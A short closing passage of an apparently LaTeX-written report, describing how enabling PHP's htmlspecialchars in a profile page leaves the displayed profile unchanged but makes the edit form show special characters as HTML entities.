		Uncommenting the usage of the \texttt{htmlspecialchars} function doesn't result in any visible difference when viewing the profile, but when the user goes back to edit their profile, the editor shows that all special characters have been replaced with the corresponding HTML entity.
		
\end{document}